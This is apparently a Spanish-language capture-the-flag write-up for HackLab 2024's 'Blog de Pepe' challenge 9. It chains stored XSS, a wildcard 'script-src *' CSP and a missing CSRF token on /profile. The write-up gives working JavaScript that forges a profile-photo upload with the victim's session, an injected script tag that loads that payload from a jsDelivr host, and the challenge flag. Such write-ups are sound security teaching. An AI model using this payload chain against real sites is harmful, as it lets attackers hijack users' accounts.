





# Desafío 9 - Blog HackLab (HackLab 2024)

**Plataforma:** HackLab (SoftwareSeguro)  
**Edición:** HackLab 2024  
**Categoría:** XSS  

## Análisis

Tercera versión del "Blog de Pepe" (después del Desafío 7 y el Desafío 8, y antes del Desafío 10). El objetivo ya no es publicar un comentario en nombre de la víctima, sino **modificar la foto de perfil del usuario `pepe`**. El blog expone además un mecanismo explícito ("Engañar a Pepe para que ingrese al Blog") que fuerza a que Pepe visite la URL del desafío, con un límite de una vez por minuto.

El campo de comentarios **no sanitiza ni codifica la salida**: `<b>test</b>` se renderiza en negrita, es decir el HTML enviado se re-inyecta tal cual en la página (Stored XSS). Sin embargo, la aplicación agrega una CSP en el `<head>`:

```html
<meta http-equiv="Content-Security-Policy" content="script-src *">
```

Esta CSP es la clave del desafío. `script-src *` **parece** restrictiva, pero está mal configurada:

- Bloquea todo script **inline**. Cuando una directiva de script incluye una whitelist de orígenes pero no incluye `'unsafe-inline'`, el navegador bloquea automáticamente tanto `<script>...</script>` inline como los event handlers inline (`onerror=`, `onload=`, etc.). Por eso `<script>alert(1)</script>` y `` **no ejecutan**, aunque lleguen intactos al HTML. En consola:

  ```
  Executing inline script violates the following Content Security Policy directive 'script-src *'.
  Either the 'unsafe-inline' keyword, a hash (...), or a nonce (...) is required to enable inline execution.
  ```

  

- Pero el comodín `*` autoriza scripts remotos de **cualquier origen**. Un `<script src="https://dominio-atacante/x.js"></script>` sí está permitido.

La autenticación depende únicamente de la cookie `session` (Flask), que el navegador adjunta automáticamente. El endpoint `POST /profile` (que actualiza la foto de perfil) usa `multipart/form-data` con los campos `bio` y `profile_pic`, y **no tiene token anti-CSRF**. Esto permite forjar la petición desde el propio dominio con la identidad de la víctima.

La combinación es: **Stored XSS + CSP mal configurada (`script-src *`) + falta de CSRF en `/profile`**. El XSS carga un script externo autorizado por la CSP, y ese script realiza el cambio de foto de perfil en nombre de quien visite la página.

## Explotación

### 1. Alojar el script externo

La CSP `script-src *` permite orígenes externos, pero el navegador (ORB - Opaque Response Blocking) **bloquea** un `<script src>` cross-origin cuyo `Content-Type` no sea de script válido. Un raw de GitHub Gist se sirve como `text/plain` y queda bloqueado (`net::ERR_BLOCKED_BY_ORB`).



La solución es servir el `.js` desde un origen que devuelva `Content-Type: application/javascript`. jsDelivr sobre un repo público de GitHub lo hace correctamente:

```
https://cdn.jsdelivr.net/gh/gonzaorban/CTF-Writeups@main/HackLab/xss/desafio-9-blog-hacklab-2024/assets/x.js
```

El script (`assets/x.js`) forja el `POST` a `/profile` con una imagen embebida, usando `FormData` y la sesión de la víctima:

```javascript
(async () => {
    // 1x1 red pixel JPEG, base64-encoded
    const b64 = "/9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAA...ABmX/9k=";
    const bin = atob(b64);
    const bytes = new Uint8Array(bin.length);
    for (let i = 0; i < bin.length; i++) bytes[i] = bin.charCodeAt(i);
    const imgBlob = new Blob([bytes], { type: "image/jpeg" });

    const fd = new FormData();
    fd.append("bio", "pwned by hacklab");
    fd.append("profile_pic", imgBlob, "pwned.jpg");

    await fetch("/profile", {
        method: "POST",
        credentials: "include", // same-origin: envía la cookie de sesión automáticamente
        body: fd
    });
})();
```

**Cómo funciona:** la imagen no existe como archivo, se construye en memoria en el navegador de la víctima. El JPEG de 1×1 va incrustado como texto Base64 dentro del script; `atob()` lo decodifica a bytes, que se cargan en un `Uint8Array` y se envuelven en un `Blob` de tipo `image/jpeg` (un "archivo en memoria"). Luego `FormData` arma el cuerpo `multipart/form-data` idéntico al del formulario real, con los campos `bio` y `profile_pic`. Esto es clave porque un `<input type="file">` no se puede rellenar por JavaScript (por seguridad), pero al construir el multipart a mano con `Blob` no hace falta el input ni interacción del usuario: la subida del archivo queda totalmente automatizada. Como el script se ejecuta en el contexto del dominio del blog, `fetch("/profile")` con `credentials: "include"` adjunta la cookie de sesión de la víctima, y el servidor recibe una petición indistinguible de una subida legítima.

### 2. Inyectar el comentario

Se publica como comentario el `<script>` que apunta al archivo alojado:

```html
<script src="https://cdn.jsdelivr.net/gh/<usuario>/<repo>@main/.../x.js"></script>
```

En este caso, la URL real usada fue:

```html
<script src="https://cdn.jsdelivr.net/gh/gonzaorban/CTF-Writeups@main/HackLab/xss/desafio-9-blog-hacklab-2024/assets/x.js"></script>
```

Probando primero con la propia sesión (`hacklab`), se confirma que el vector funciona de punta a punta: la bio cambia a "pwned by hacklab" y la foto de perfil a la imagen inyectada.



### 3. Forzar la visita de Pepe

Se usa el campo "Engañar a Pepe para que ingrese al Blog" con el dominio del desafío (protocolo + dominio, sin path). Cuando Pepe carga la página, el navegador ejecuta el script externo (permitido por `script-src *`), que dispara el `POST /profile` con la sesión de Pepe y le cambia la foto de perfil.





## Flag

```
44301e6c871eb9e21cfd16fd94e4fe90
```
